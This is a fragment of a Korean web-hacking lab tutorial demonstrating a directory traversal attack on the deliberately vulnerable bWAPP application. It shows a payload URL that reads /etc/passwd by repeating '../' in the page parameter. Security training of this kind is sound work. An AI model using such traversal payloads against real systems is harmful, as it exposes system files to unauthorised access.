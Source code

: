 <div align="center" >
<img src="/Art of Web Hacking/Chapter14/004.png" width="520" height="44"> <br>
</div>
<div align="center" >
<img src="/Art of Web Hacking/Chapter14/005.png" width="520" height="104"> <br>
</div>스샷. 4-5<br><br>
- directory traversal - files에 들어가면<br> url에 page파라미터에 message.txt가 지정되어 전달되고 있습니다,<br> 해당 파일로 직접접근 가능<br>
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#308ce5">192.</span><span style="color:#308ce5">168.</span><span style="color:#308ce5">37.</span><span style="color:#308ce5">132</span><span style="color:#ff3399">/</span>bWAPP<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>directory_traversal_1.php?page<span style="color:#0086b3"></span><span style="color:#ff3399">=</span>..<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>..<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>..<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>etc<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>passwd</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

<div align="center" >
<img src="/Art of Web Hacking/Chapter14/006.png" width="520" height="384"> <br>
</div>스샷. 6<br><br>
- ../를 반복하여 상위 디렉토리로 이동<br><br>
<center><font size="4em" color="#0091ff">디렉터리 트래버셜 취약점 공격 실습</font> </center><br>

